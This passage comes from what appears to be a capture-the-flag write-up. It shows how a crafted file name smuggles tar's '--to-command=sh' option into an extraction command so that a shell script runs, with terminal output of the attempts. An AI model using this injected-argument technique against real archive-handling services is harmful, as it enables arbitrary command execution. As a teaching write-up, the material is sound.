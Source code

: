 &nbsp;



**Okay, let's get back to crafting the exploit with our new train of thought**

&nbsp;



`exploit* --to-command=sh append.sh .tar`

Hopefully this will execute my bash script. Let's run it


```
└─▪ python3 function.py exploit\*\ --to-command\=sh\ append.sh\ .tar 
File changed to new filename

tar -xvf exploit* --to-command=sh append.sh __5786af.tar
append.sh
utctf{flag}
tar: __5786af.tar: Not found in archive
tar: Exiting with failure status due to previous errors
File change back to old name
```
It ran and added the flag to the tar file!

I tried uploading it at this point and learned that if any errors happened, it wouldn't go through the tar inspector.

The error is happening because it's trying to call on a file that doesn't exist (the string that gets appended)

Let's try matching the .tar extension and see if it will run even with an invalid file. I'll just add * before the .tar at the end

`exploit* --to-command=sh append.sh *.tar`

```
└─▪ python3 function.py exploit\*\ --to-command\=sh\ append.sh\ \*.tar 
File changed to new filename

tar -xvf exploit* --to-command=sh append.sh *__88a8c2.tar
append.sh
utctf{flag}
tar: Pattern matching characters used in file names
tar: Use --wildcards to enable pattern matching, or --no-wildcards to suppress this warning
tar: exploit* --to-command=sh append.sh *__88a8c2.tar: Not found in archive
tar: Exiting with failure status due to previous errors
File change back to old name
```

Okay it doesn't like pattern matching. It's also not finding the tar file name because it isn't in the archive, it's the archive's name.


I tried archiving the tar file in itself so it could be found, but tar doesn't let you do that.


Back to the tar manual to look for another tar option that will eat the ending input of `__random_string.tar`!
